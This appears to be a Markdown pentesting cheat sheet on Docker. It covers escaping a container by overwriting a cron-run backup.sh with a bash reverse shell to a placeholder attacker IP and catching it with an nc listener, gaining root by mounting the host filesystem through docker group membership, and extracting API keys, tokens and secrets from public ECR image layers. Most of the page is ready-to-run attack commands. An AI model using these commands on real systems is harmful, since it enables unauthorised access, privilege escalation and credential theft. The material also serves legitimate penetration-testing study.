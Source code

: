 ```yaml
---
title: Docker Pentesting
desc: 
tags: [AWS, Container, Docker, Netcat, PrivEsc, Privilege]
alts: [Privilege-Escalation-Linux]
render_with_liquid: false
---
```


## Basic Investigation

1. List All Images

    ```sh
    docker images
    ```

<br />

## Escape from Container to Desired Machine

1. **Check if the Backup File like "backup.sh" Exists**

    ```sh
    cd /opt/backups
    ls
    ```

2. **Add Reverse Shell Payload to the Backup File**

    If you find the backup file and it's executed automatically at regular intervals by cron, inject the reverse shell payload to escape from the container shell.

    ```sh
    echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    # or
    printf '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    ```

3. **Open Listner for Waiting the Reverse Shell**

    Use "nc" command to open listener and wait for while running the previous script by cron.

    ```sh
    # In attacker machine, wait for the cron job execute the reverse shell
    nc -lvnp 4444
    ```

4. **Confirmation**

    If you found the computer's name changed, you gained the access to the desired machine successfully.

    ```sh
    user@realhost:~#
    ```

<br />

## Root Privilege Escalation (Docker Group Required)

1. **Check if Current User Belongs to "docker" Group**

    ```sh
    groups
    ```

2. **Gain the Root Shell**

    ```sh
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

1. **Run the Docker Container**

    - **Retrieve a Container Image**

        ```sh
        docker pull public.ecr.aws/<registry-alias>/<repository>:latest
        ```

    - **Check if It was Pulled**

        ```sh
        docker images
        ```

    - **Run the Container and Interect with It**

        ```sh
        docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
        ```

2. **Get Sensitive Information in the Container**

    You may be able to get the interesting data like **api_key**.

    ```sh
    printenv
    ```

3. **Get Sensitive Information in Local Machine**

    - **Check the Container Config and Retrieve Sensitive Information**

        Process the following flows in your local machine.

        ```sh
        mkdir example
        cd example/
        docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
        tar -xf example.tar

        # Config files
        cat manifest.json | jq
        cat f9ab.......json | jq

        # Also config file in each directory
        cd 2246f........../
        tar -xvf layer.tar

        # Get sensitive information
        grep -e 'token' -e 'secret' */*
        ```